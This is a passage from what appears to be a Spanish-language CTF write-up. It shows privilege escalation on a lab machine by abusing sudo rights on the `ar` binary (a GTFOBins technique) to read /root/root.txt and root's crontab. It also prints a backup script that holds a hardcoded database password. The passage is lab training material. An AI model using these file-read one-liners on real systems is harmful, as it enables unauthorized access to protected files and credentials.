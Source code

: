 ![securitybot](/assets/securitron/image-31.png)

## Elevación de privilegios

Comprobamos si tenemos algún permiso sudo, ya que tenemos la contraseña del usuario.

![sudo](/assets/securitron/image-32.png)

Tenemos permiso sudo para ejecutar el binario `ar`, según lo que indica en GTFOBins, podemos obtener una lectura de ficheros privilegiada.

![gtfobins](/assets/securitron/image-33.png)

Intentamos leer la flag de root.txt mediante `sudo` en el binario `ar`.

```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/root/root.txt" && cat "$TF"
```

Al leer el fichero de la flag de `/root/root.txt`, nos aparece el mensaje `Esta vez no será tan fácil.`

![/root/root.txt](/assets/securitron/image-34.png)

Intentamos leer otros ficheros y encontramos algo muy interesante en el fichero de crontab del usuario root.

```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/var/spool/cron/crontabs/root" && cat "$TF"
```

![/var/spool/cron/crontabs/root](/assets/securitron/image-35.png)

En el PATH del crontab de root hay una carpeta en la que tenemos permisos de escritura `/home/securitybot/.local/bin` y el usuario root está ejecutando un script en bash cada minuto `/opt/backup_bd.sh`.

```bash
cat /opt/backup_bd.sh
```

```bash
# Verificar si se pasó un argumento (la fecha)
if [ -z "$1" ]; then
  echo "Uso: $0 <fecha>"
  exit 1
fi

# Variables
FECHA=$1
USUARIO="matomo"
CONTRASEÑA="7pUYlPYpziv1"
BASE_DATOS="pms_db"
CARPETA_BACKUP="/root/backups"
NOMBRE_BACKUP="${CARPETA_BACKUP}/backup_${BASE_DATOS}_${FECHA}.sql"

# Crear carpeta de backups si no existe
/bin/mkdir -p $CARPETA_BACKUP

# Crear backup
/usr/bin/mysqldump -u $USUARIO -p$CONTRASEÑA $BASE_DATOS > $NOMBRE_BACKUP

# Verificar si el backup se creó exitosamente
if [ $? -eq 0 ]; then
  echo "Backup creado exitosamente: $NOMBRE_BACKUP"
else
  echo "Error al crear el backup"
  exit 1
```